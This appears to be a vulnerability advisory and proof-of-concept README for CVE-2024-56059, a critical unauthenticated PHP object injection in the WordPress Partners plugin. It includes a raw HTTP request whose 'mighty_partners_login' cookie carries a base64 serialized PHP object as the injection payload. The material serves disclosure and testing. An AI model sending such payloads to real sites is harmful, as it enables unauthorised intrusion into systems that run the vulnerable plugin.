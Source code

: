 # CVE-2024-56059
Partners <= 0.2.0 - Unauthenticated PHP Object Injection

# Description

The Partners plugin for WordPress is vulnerable to PHP Object Injection in versions up to, and including, 0.2.0 via deserialization of untrusted input. This makes it possible for unauthenticated attackers to inject a PHP Object. No known POP chain is present in the vulnerable software. If a POP chain is present via an additional plugin or theme installed on the target system, it could allow the attacker to delete arbitrary files, retrieve sensitive data, or execute code.

## Details

- **Type**: plugin
- **Slug**: partners
- **Affected Version**: 0.2.0
- **CVSS Score**: 9.8
- **CVSS Rating**: Critical
- **CVSS Vector**: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
- **CVE**: CVE-2024-56059
- **Status**: Active

POC
---
```
GET /partners/ HTTP/1.1
Host: kubernetes.docker.internal:8929
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:134.0) Gecko/20100101 Firefox/134.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Cookie: mighty_partners_login=TzoyMDoiUEhQX09iamVjdF9JbmplY3Rpb24iOjA6e30=
```
